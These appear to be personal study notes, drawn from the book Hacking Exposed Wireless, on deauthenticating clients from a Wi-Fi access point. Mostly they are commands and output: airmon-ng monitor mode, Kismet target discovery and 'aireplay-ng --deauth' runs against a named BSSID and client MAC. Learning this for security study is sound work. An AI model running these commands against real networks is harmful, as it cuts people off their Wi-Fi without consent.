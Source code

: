 Based on the book Hacking Exposed Wireless
= Goal =
The goal is aimed at deauthentication a computer from the AP

== Step one - Monitor mode ==
* [[kismet]] -- shoud be installed

Find the interface that I am running:
    sudo airmon-ng

    Interface       Chipset         Driver

    wlp3s0b1                Broadcom        b43 - [phy0]

    sudo airmon-ng check wlp3s0b1
    sudo airmon-ng stop wlp3s0b1

To start the network card in monitor mode:

	➜  Hacking sudo airmon-ng start wlp3s0b1


	Found 5 processes that could cause trouble.
	If airodump-ng, aireplay-ng or airtun-ng stops working after
	a short period of time, you may want to kill (some of) them!

	PID     Name
	1196    NetworkManager
	1197    avahi-daemon
	1202    avahi-daemon
	1337    wpa_supplicant
	24176   dhclient


	Interface       Chipset         Driver

	wlp3s0b1                Broadcom        b43 - [phy0]
									(monitor mode enabled on mon0)


Sometimes, it might be necessary to use the command iw.
    iw dev mon0 link
    Not connected.

Example output when not connected to an AP.

== Use Kismet ==
Start kismet and choose add source : mon0

Finally, I have used the following command:
sudo aireplay-ng --deauth 1000 -a A0:21:B7:D5:BA:F6  wlp3s0b1

This command will deconnect everyone connected to this bssid.

I could not find the clients MAC address. I will have to investigate.

== Use AirCrack ==

I could find the Station and now I can run the full command:
    sudo aireplay-ng --deauth 1000 -a A0:21:B7:D5:BA:F6 -c A0:88:B4:D6:DF:90 wlp3s0b1

